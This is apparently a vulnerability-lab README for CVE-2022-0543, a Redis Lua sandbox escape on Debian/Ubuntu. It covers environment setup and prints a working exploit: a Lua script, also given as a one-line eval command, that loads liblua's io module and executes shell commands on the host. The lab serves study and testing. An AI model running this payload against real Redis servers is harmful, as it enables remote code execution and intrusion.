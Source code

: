 # Redis Lua Sandbox Escape and Remote Code Execution (CVE-2022-0543)

Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache, and message broker.

Reginaldo Silva discovered that due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scriptss could possibly escape the Lua sandbox and execute arbitrary code on the host.

References:

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## Vulnerability Environment

Execute following command to start a redis server 5.0.7 on Ubuntu:

```
docker-compose up -d
```

After server is started, you can connect to this server without credentials by `redis-cli`:

```
sudo apt install redis-tools
redis-cli -h your-ip
```

## Normal

```
bash normal.sh server_IP
```

## Attack

```
bash attack.sh server_IP
```


## Exploit

This vulnerability existed because the Lua library in Debian/Ubuntu is provided as a dynamic library. A `package` variable was automatically populated that in turn permitted access to arbitrary Lua functionality.

As this extended to, for example, you can use `package.loadlib` to load the modules from liblua, then use this module to execute the commands:

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

Noted that you should specify a correct realpath for the `liblua` library. In this Vulhub environment (Ubuntu focal), the value is `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`.

Eval this script in redis shell:

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Execute the commands successful:

![](1.png)
